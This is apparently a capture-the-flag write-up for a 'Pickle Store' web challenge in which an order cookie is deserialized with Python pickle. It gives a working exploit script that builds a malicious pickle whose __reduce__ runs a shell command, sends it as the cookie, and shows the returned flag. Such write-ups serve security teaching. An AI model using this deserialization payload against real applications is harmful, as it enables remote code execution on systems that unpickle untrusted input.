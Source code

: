 ![](2023-04-03-10-27-41.png)

The main site of the page where we can select an order:

![](2023-04-03-10-27-27.png)

After selecting our order, we are redirected to `/order`, a cookie is set, and the order info is displayed.

![](2023-04-03-10-28-18.png)

![](2023-04-03-10-28-36.png)

Based on the name of the challenge, I could infer this is a Pickle deserialization challenge. Our order is serialized, set as a cookie, then the cookie is retrieved and deserialized. The output is then displayed.

Write this script:

```py
import pickle
import base64
import requests
import subprocess


class PickleRCE(object):
    def __reduce__(self):
        cmd = ["cat", "/flag"]
        return (subprocess.check_output,(cmd,))

payload = base64.b64encode(pickle.dumps(PickleRCE()))  # Crafting payload
r = requests.get("https://pickles-web.challenges.ctf.ritsec.club/order", cookies={"order":payload.decode()})  # Send GET request
print(r.text)
```

```sh
$ python3 pickle_store/script.py
<!DOCTYPE html>
<head>
  <title>Pickle Store</title>
  <link rel="stylesheet" href="/static/style.css">
</head>
<body>
  <h1>Here's your order!</h1>
  <h2>b&#39;RS{TH3_L345T_53CUR3_P1CKL3}\n&#39;</h2>
  <a class='button' href='/'>New Order</a>
</body>
```

Flag: `RS{TH3_L345T_53CUR3_P1CKL3}`
